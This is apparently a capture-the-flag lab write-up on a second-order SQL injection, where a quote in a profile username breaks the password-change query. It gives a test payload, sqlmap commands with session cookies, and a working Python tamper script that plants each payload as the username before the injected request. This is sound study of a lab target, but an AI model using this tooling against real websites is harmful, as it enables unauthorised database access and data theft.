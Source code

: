 We can modify a bunch of attributes in the profile but none lead to `XSS` and i also tried placing `'` everywhere but didn't get any failure so far.

Actually, just found it !
on `/change` which is the url to change the password, when I use `' or 1=1` as password I get
```
Something Went Wrong
```

This is most probably the vulnerable point.

```bash
sqlmap -u http://$IP/change/ --data "password=password&new_password=" --cookie "PHPSESSID=jhl8f04i2l9703dr6pomae5909"
```

So I was wrong, the injectable parameter is not `new_password`.
When I tested the password change, I had leftovers from previous test.
My username was `john'` and it is the quote in my username that triggered the sql injection.

This is a 2 steps attack.

Let's try to make this work with sqlmap

I found those 2 links that were pretty useful:
```
https://0xdf.gitlab.io/2018/07/07/second-order-sql-injection-on-htb-nightmare.html
https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap/second-order-injection-sqlmap
```

```
sqlmap --tamper tamper_change_name.py -u http://$IP/change/ --data "password=password&new_password=password&pwn=" --cookie "PHPSESSID=i99deh2eroi70pederj7h4s9jj"
```

Tamper script
```py
#!/usr/bin/env python3

import requests
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL

IP="10.10.196.165"
SESSION_ID="jhl8f04i2l9703dr6pomae5909"

def dependencies():
    pass

def change_name(payload):
    s = requests.Session()

    req_data = {
        "username":payload,
        "country":"Afghanistan",
        "email":"user@pwn.com",
        "birthday":"2020-11-02",
        "description":""
    }

    cookie = {'PHPSESSID': SESSION_ID}

    response = s.post(f"http://{IP}/", data=req_data, cookies=cookie)

    return payload

def tamper(payload, **kwargs):
    change_name(payload)
    return payload
```